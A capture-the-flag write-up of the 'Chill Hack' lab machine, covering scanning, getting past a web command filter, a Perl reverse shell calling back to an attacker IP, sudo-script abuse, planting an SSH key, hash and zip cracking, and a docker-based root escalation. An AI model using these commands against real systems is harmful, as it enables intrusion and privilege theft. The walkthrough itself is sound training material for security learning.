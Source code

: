 # Chill Hack Writeup


Lets start with a simple `nmap -A -sS -T4 10.10.233.73` we get the following output

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.59.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

As we can see there is a webserver running so lets run gobuster and check it out at the same time. Okay so the website doesnt seem very usefull but gobuster found 
`/secret (Status: 301) [Size: 313] [--> http://10.10.233.73/secret/]`

Seems like we can execute commands on it, okay so after testing some commands there is a filter. Commands like `ls` return a 'Are you a Hacker?' page and commands like `echo hi` return the ouput with no problem so we can try hiding malicious intent in `echo`

Which did not take me long to find using `echo *` we can see the directories contents!
`images index.php` Lets try reading the index.php file so we can see the conditions that block our commands and avoid them! Using  ```echo `cat index.php` ``` we can spawn the file and if we now view source we find:
```
<!--?php if(isset($_POST['command'])) { $cmd = $_POST['command']; $store = explode(" ",$cmd); $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls'); for($i=0; $i<count($store); $i++) { for($j=0; $j<count($blacklist); $j++) { if($store[$i] == $blacklist[$j]) {?-->
```

So we now know we cant use without echo the following commands:
`nc,python,bash,php,perl,rm,cat,head,tail,python3,more,less,sh,ls`

If we run `nc -lnvp 9999` on our Attack Machine we listen for a reverse shell and after running the following command we have a shell! I found this on [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
```
echo `perl -e 'use Socket;$i="YOUR_IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
```

Before doing anything run `python3 -c 'import pty; pty.spawn("/bin/sh")'` to spawn a terminal with more capibilities. After looking around for a while I couldnt find much except some mySQL creds, but before checking that out I ran a [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and got some intresting output:

```
User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

Content of `.helpline.sh`

```
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

So we see that the `msg` variable will be executed, and send errors to /dev/null. So if we just run the script with `sudo -u apaar /home/apaar/.helpline.sh` we can now inside the script run commands under the `apaar` user. Spawn a better shell `python3 -c 'import pty;pty.spawn("/bin/bash")'` once again then we can navigate to `/home/apaar/` and `cat local.txt` which gives us the User Flag! Good job we have made it this far now time for privesc!

We can also gain ssh access by adding our public ssh key to `.ssh/authorized_keys` with `echo <YOUR SSH PUB KEY> >> .ssh/authorized_keys` and now using `ssh apaar@<VICTIM_IP>` on our attack machine we can login as apaar and get a proper shell!

Lets go back to the mySQL we found earlier in `/var/www/files/index.php` and login with `mysql -u root -p -D webportal`

![[Screen Shot 2022-02-10 at 6.05.57 PM.png]]

After running `show tables;` and  `SELECT * from users;` we can see we get the md5 hash of anurodh account, so lets crack that using [Crack Station](https://crackstation.net/) ![[Screen Shot 2022-02-10 at 6.18.23 PM.png]] and we get a postive result! Lets try loging in with ssh now.

Did not work. But I did see something intresting earlier in the `/var/www/files/hacker.php` file:

```
<center>
        <img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
        <h1 style="background-color:red;">You have reached this far. </h2>
        <h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
```

So lets try looking deeper into the image. To be able to download the image to our machine lets use the ftp service we saw earlier, I had not even noticed that there was an anonymous login available which gave this `note.txt`
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

We figured it out alone anyways so didnt miss anything huge. After trying to use ftp and it not working I realised we can just use apaar with the scp command and download the file  `scp apaar@<VICTIM_IP>:/var/www/files/images/hacker-with-laptop_23-2147985341.jpg .`

Now lets run steghide on it `steghide --info hacker-with-laptop_23-2147985341.jpg` after running this command with an empty password we can see a `backup.zip` file hidden inside, so lets extract it! `steghide extract -sf hacker-with-laptop_23-2147985341.jpg`

After extracting it if we try to `unzip backup.zip` it asks for a passphrase so we can try the md5 hashes we cracked earlier. None of them worked so I decided to use john,
first run `zip2john backup.zip | tee hash` to generate a hash file and then we can crack it using `john hash --wordlist=/usr/share/wordlists/rockyou.txt` 
![[Screen Shot 2022-02-10 at 6.27.07 PM.png]] And in a couple seconds we get a successfull password.

Upon using `cat source_code.php` we can see an intresting line:
`if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")`
We directly know its base64 encoded and can decode it easily which gives us
`!d0ntKn0wmYp@ssw0rd` Once again lets try logging in to ssh with this password.

It Worked! Finally we have a new user and new permissions!

After running anothe linPEAS (yes ik im addicted to laziness), we get 2 very very promising results for privesc:

```
Docker socket /var/run/docker.sock is writable
uid=1002(manurodh) gid=1002(manurodh) groups=1002(manurodh),999(docker)
```

So after looking up some privesc with docker I found the [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) reference, which with 1 easy command can spawn a root shell! 
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

Good Game! Took a while but we got there! Hope you guys enjoyed, I learned alot along the way and hopefully I didnt do to badly, cya for the next one.


